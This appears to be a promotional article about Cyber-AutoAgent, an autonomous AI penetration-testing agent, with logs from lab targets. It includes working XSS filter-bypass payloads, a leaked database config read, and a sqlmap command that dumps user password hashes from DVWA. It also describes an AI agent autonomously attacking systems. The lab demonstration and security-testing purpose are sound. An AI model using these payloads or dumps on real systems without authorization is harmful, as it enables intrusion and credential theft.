

# Cyber-AutoAgent: Where Autonomous AI Meets Real-World Penetration Testing

The cybersecurity landscape evolves at breakneck speed. While automated vulnerability scanners flood security teams with false positives, and manual penetration testing remains prohibitively expensive for continuous assessment, a new paradigm emerges: autonomous AI agents that think, adapt, and execute like seasoned security professionals.

Enter **Cyber-AutoAgent**—an open-source solution that demonstrates how advanced agentic AI concepts transform security testing from static automation into dynamic, intelligent assessment.

## Beyond Simple Automation: The Agentic Approach

Traditional security tools follow predefined scripts. Run nmap, parse output, run Nikto, generate report. Cyber-AutoAgent operates fundamentally differently through three core innovations:

### 1. Dynamic Plan Decomposition
The agent receives high-level objectives like "Execute XSS with the string 'XSS'" and autonomously decomposes them into actionable steps. Using AWS Bedrock's Claude models, it reasons about the target, formulates hypotheses, and adjusts strategies based on discovered evidence.

Here's a real example from an XSS assessment where the agent systematically discovers and bypasses filters:

```
# Initial test reveals single quote filtering
Step 5/30: shell
↳ Running: curl -s -X POST http://localhost:32768/xss25 -d "solution=alert('XSS')"
Response: Sorry you can't use: '''

# Agent adapts, tries different vectors
Step 8/30: shell
↳ Running: curl -s -X POST http://localhost:32768/xss25 -d 'solution=" onmouseover="alert(\"XSS\")"'
Response: Sorry you can't use: 'onmouseover'

# Continues testing until finding unfiltered event handler
Step 20/30: shell
↳ Running: curl -s -X POST http://localhost:32768/xss25 -d 'solution="><body onpageshow=alert(`XSS`)>'
Response: Congratulations! FLAG{2c0b9d5db6f05ff530d3cd19163857e5991d98894184df155e78986bc9940e98}
```

The agent tested 20 different approaches, learning from each filtered attempt until discovering the successful bypass using `onpageshow` with backticks.

### 2. Meta-Tool Creation and Orchestration
When existing tools prove insufficient, Cyber-AutoAgent creates custom tools on-the-fly. This meta-tooling capability sets it apart from rigid automation frameworks:

```python
@tool
def advanced_sql_extractor(target_url: str, vulnerable_param: str):
    """Custom tool created by agent for complex SQL extraction"""
    # Agent-generated code for specific vulnerability exploitation
    # Combines multiple techniques discovered during assessment
```

The agent maintains a three-tier tool hierarchy:
- **Direct shell commands** for system interaction
- **Professional tools** (nmap, sqlmap, nikto) via shell orchestration  
- **Dynamic meta-tools** created when novel approaches are needed

### 3. Evidence-Based Memory System
Unlike traditional scanners that produce flat reports, Cyber-AutoAgent implements a sophisticated memory system using Mem0 and FAISS vector storage. Every discovery gets categorized, stored, and becomes searchable context for future decisions.

From a real DVWA assessment:

```
Step 7/30: memory_store
↳ Storing [credential]: Database credentials discovered in config.inc.php.bak file: ...

Step 18/30: memory_store
↳ Storing [vulnerability]: SQL injection vulnerability confirmed in DVWA SQL Injection ...

Step 22/30: memory_store
↳ Storing [finding]: Successfully extracted user credentials from the database us...

📋 Evidence Summary
────────────────────────────────────────────────────────────────
Categories:
   • enumeration: 1 items
   • credential: 1 items
   • access: 1 items
   • vulnerability: 2 items
   • finding: 1 items
```

This memory system enables the agent to build upon previous discoveries, creating a comprehensive understanding of the target system.

## Intelligent Budget Management

Real-world penetration testing operates under constraints. Cyber-AutoAgent dynamically adjusts its approach based on remaining computational budget:

- **🟢 Abundant (>20 steps)**: Methodical reconnaissance and enumeration
- **🟡 Constrained (10-19 steps)**: Focus on high-probability attack vectors
- **🟠 Critical (5-9 steps)**: Exploitation-only mode targeting discovered vulnerabilities
- **🔴 Emergency (<5 steps)**: Single high-impact attempt using best available intelligence

This budget-aware execution ensures optimal resource utilization while maintaining assessment quality.

## Real-World Performance

In benchmark testing against standard vulnerable applications, Cyber-AutoAgent demonstrates sophisticated multi-stage assessment capabilities. Here's an actual assessment sequence:

### Stage 1: Reconnaissance
```
Step 1/30: shell
↳ Running: nmap -sV -p- --min-rate=1000 172.17.0.4

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
```

### Stage 2: Vulnerability Discovery
```
Step 2/30: shell
↳ Running: nikto -h 172.17.0.4

+ Cookie PHPSESSID created without the httponly flag
+ /config/: Configuration information may be available remotely.
+ Directory indexing found.
```

### Stage 3: Exploitation
```
Step 6/30: shell
↳ Running: curl -s http://172.17.0.4/config/config.inc.php.bak

$_DVWA[ 'db_user' ]     = 'app';
$_DVWA[ 'db_password' ] = 'vulnerables';
```

### Stage 4: Data Exfiltration via SQL Injection
```
Step 21/30: shell
↳ Running: sqlmap -u "http://172.17.0.4/vulnerabilities/sqli/?id=1&Submit=Submit" 
          --cookie="PHPSESSID=..." --batch -D dvwa -T users --dump

[5 entries]
| user    | password                                    |
| admin   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
| gordonb | e99a18c428cb38d5f260853678922e03 (abc123)   |
```

The agent autonomously:
- **Discovered** exposed configuration files through directory listing
- **Extracted** database credentials from backup files
- **Exploited** SQL injection to dump user credentials
- **Generated** a comprehensive 7-page security report with remediation guidance

### Architecture Deep Dive



The feedback loop between reasoning, action, and memory creates emergent intelligence. Each discovery informs future decisions, building a contextual understanding that surpasses simple automation.

## Agent Reasoning in Action

What sets Cyber-AutoAgent apart is its visible reasoning process. Here's how it approached the XSS challenge:

```
# Agent's Initial Analysis
"I'll conduct an organized assessment to find and exploit XSS vulnerabilities 
on the target. My goal is to execute an XSS payload containing 'XSS' in 
capital letters to trigger the flag."

# After discovering filters
"The application blocks single quotes. Let's try a different approach 
using double quotes..."

# Learning from failures
"The application is filtering many common XSS vectors. Let's try using 
SVG with an event handler that might not be filtered..."

# Adapting strategy
"SVG tags are also filtered. Let's try an iframe with a different 
event handler..."
```

This transparent reasoning allows security teams to understand not just what the agent did, but why—crucial for learning and validation.

## Technical Implementation

Built on the [Strands framework](https://github.com/anthropics/strands) from Anthropic, Cyber-AutoAgent leverages:

- **AWS Bedrock** for scalable LLM inference
- **Mem0** for intelligent memory management
- **FAISS** for efficient vector similarity search
- **Async tool execution** with parallel processing capabilities

The modular architecture enables easy extension:

```python
agent = Agent(
    model=BedrockModel(model_id="claude-3-7-sonnet"),
    tools=[shell, file_write, editor, load_tool, 
           memory_store, memory_retrieve, memory_list],
    system_prompt=get_system_prompt(target, objective),
    callback_handler=ReasoningHandler(max_steps=100),
    load_tools_from_directory=True,
    max_parallel_tools=8
)
```

## Ethical Considerations and Future Directions

Cyber-AutoAgent ships with prominent warnings and safety measures. The project emphasizes responsible use in authorized environments only. Future development focuses on:

- **Multi-target orchestration** for enterprise-scale assessments
- **Advanced objective completion** detection with multi-criteria evaluation
- **Chain-of-thought reasoning** logs for audit trails
- **Integration with existing security workflows** and SIEM platforms

## Results That Speak

Real assessment outcomes demonstrate the agent's effectiveness:

```
🧠 OPERATION SUMMARY
================================================================================
Operation ID:      OP-20250607-011539
Status:            ✅ Objective Achieved
Duration:          13m 15s

📊 Execution Metrics:
  • Total Steps: 21/30
  • Tools Created: 0
  • Evidence Collected: 2 items
  • Memory Operations: 2 total

Assessment Summary:
  • Successfully bypassed XSS filters after 20 attempts
  • Captured flag: FLAG{2c0b9d5db6f05ff530d3cd19163857e5991d98894184df155e78986bc9940e98}
  • Generated comprehensive security report
```

In another assessment against DVWA:
- Discovered 6 critical vulnerabilities in under 25 minutes
- Extracted credentials for all system users
- Achieved command execution with www-data privileges
- Produced a 7-page professional penetration testing report

## Conclusion

Cyber-AutoAgent represents a paradigm shift in security testing—from brittle automation to intelligent, adaptive assessment. By combining plan decomposition, tool orchestration, meta-tooling, and evidence-based memory, it demonstrates how agentic AI transforms cybersecurity practice.

The agent's ability to reason through complex scenarios, adapt to defensive measures, and generate professional documentation makes it a powerful augmentation tool for security teams. When an XSS filter blocks 19 different attack vectors, Cyber-AutoAgent doesn't give up—it learns, adapts, and finds the 20th approach that succeeds.

The future of penetration testing isn't replacing human experts—it's augmenting them with AI agents that think, learn, and adapt. Cyber-AutoAgent proves this future is not only possible but accessible today.

---

**Get Started**: [github.com/cyber-autoagent/cyber-autoagent](https://github.com/cyber-autoagent/cyber-autoagent)  
**Documentation**: Full setup guides, API reference, and contribution guidelines available in the repository.

*Cyber-AutoAgent is open-source software for educational and authorized testing only. Always ensure proper authorization before testing any systems.*